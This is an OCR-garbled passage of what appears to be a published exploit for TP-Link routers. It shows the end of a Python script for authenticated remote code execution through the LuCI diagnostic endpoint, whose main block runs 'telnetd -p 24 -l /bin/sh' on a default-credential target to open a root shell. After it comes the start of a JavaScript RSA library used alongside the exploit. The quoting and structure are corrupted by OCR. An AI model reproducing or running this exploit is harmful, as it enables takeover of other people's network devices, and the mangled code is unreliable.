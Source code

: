             "my_result":"exploit"
        }
    }
    ret = s.post(uri + '/cgi-bin/luci/;stok={}/admin/diagnostic?form=diag'.format(stok), data=urllib.urlencode({"data":json.dumps(payload)}), headers=headers, timeout=5)

    #print ret.text
    print '[+] Finish RCE'
    print '--------------------------------------------------------------'
    return True

except:
    return False 
``` `if **name**==‘**main**’:

print ‘-----------Tplink LUCI diagnostic Authenticated RCE-----------’

print execute(‘192.168.1.1’, 80, ‘admin’, ‘admin’, ‘telnetd -p 24 -l /bin/sh’)` 
```

### RSA_Encryption_For_Tplink.js 文件

```
// Copyright (c) 2005  Tom Wu
// All Rights Reserved.
// See "LICENSE" for details.

// Basic JavaScript BN library - subset useful for RSA encryption.

// Bits per digit

// JavaScript engine analysis

var BI_RC = new Array();

var BI_RM = “0123456789abcdefghijklmnopqrstuvwxyz”;

var dbits;

var canary = 0xdeadbeefcafe;

var j_lm = ((canary&0xffffff)==0xefcafe);

var rng_psize = 256;

var rng_state;

var rng_pool;

var rng_pptr;

// Initialize the pool with junk if needed.

BigInteger.prototype.am = am2;

dbits = 30;

BigInteger.prototype.DB = dbits;

BigInteger.prototype.DM = ((1<<dbits)-1);

BigInteger.prototype.DV = (1<<dbits);

var BI_FP = 52;

```